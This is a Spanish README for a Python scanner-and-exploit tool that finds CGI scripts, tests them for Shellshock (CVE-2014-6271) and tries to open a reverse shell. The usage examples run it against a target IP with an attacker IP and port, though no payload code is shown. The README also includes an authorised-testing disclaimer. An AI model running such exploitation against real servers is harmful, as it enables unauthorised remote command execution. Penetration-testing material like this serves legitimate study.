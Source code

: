 # Shellshock Scanner y Explotador

Este script de Python es una herramienta para detectar y explotar la vulnerabilidad Shellshock (CVE-2014-6271) en servidores web que utilizan scripts CGI.

## Descripción

Shellshock es una vulnerabilidad crítica que afecta a la shell Bash y permite a un atacante ejecutar comandos arbitrarios a través de variables de entorno. Esta herramienta automatiza:

- La detección de scripts CGI accesibles en el servidor objetivo
- La verificación de vulnerabilidad Shellshock en cada script encontrado
- La explotación para obtener una shell reversa

## Requisitos

La herramienta requiere las siguientes dependencias:
- Python 3
- gobuster
- curl
- netcat (nc)

## Instalación

```bash
# Clonar el repositorio
git clone https://github.com/usuario/shellshock-scanner.git
cd shellshock-scanner

# Hacer el script ejecutable
chmod +x shellshock_scanner.py

# Verificar dependencias (el script comprobará automáticamente)
sudo apt install gobuster curl netcat-traditional
```

## Uso

### Modo interactivo (recomendado)

Simplemente ejecuta el script sin argumentos y seguirás los pasos interactivos:

```bash
./shellshock_scanner.py
```

El script te solicitará:
- IP del servidor objetivo
- Tu IP para la shell reversa
- Puerto para la shell reversa (por defecto: 7777)
- Ruta a un diccionario para la fase de enumeración (opcional)

### Modo con argumentos

También puedes ejecutar el script con argumentos específicos:

```bash
./shellshock_scanner.py --target 192.168.1.10 --attacker-ip 192.168.1.5 --attacker-port 4444 --wordlist /usr/share/wordlists/dirb/common.txt
```

Para probar un script CGI específico:

```bash
./shellshock_scanner.py --target 192.168.1.10 --attacker-ip 192.168.1.5 --cgi-script test.cgi
```

## Proceso de funcionamiento

1. **Verificación de dependencias**: El script comprueba que todas las herramientas necesarias estén instaladas.
2. **Enumeración**: Utiliza gobuster para encontrar scripts CGI en el directorio `/cgi-bin/` del servidor.
3. **Detección**: Verifica la vulnerabilidad Shellshock en cada script encontrado.
4. **Explotación**: Para los scripts vulnerables, intenta obtener una shell reversa.

## Características adicionales

- Creación automática de un wordlist básico si no se encuentra ninguno.
- Métodos alternativos de detección si gobuster falla.
- Múltiples payloads para aumentar las probabilidades de éxito.
- Comprobación manual de scripts CGI específicos.

## Consideraciones legales

Esta herramienta está diseñada únicamente para fines educativos y de pruebas de penetración autorizadas. El uso de esta herramienta contra sistemas sin permiso explícito es ilegal y puede resultar en consecuencias legales.

## Contribuciones

Las contribuciones son bienvenidas. Por favor, envía pull requests para mejoras o correcciones.

## Licencia

Este proyecto está licenciado bajo la licencia MIT - ver el archivo LICENSE para más detalles.
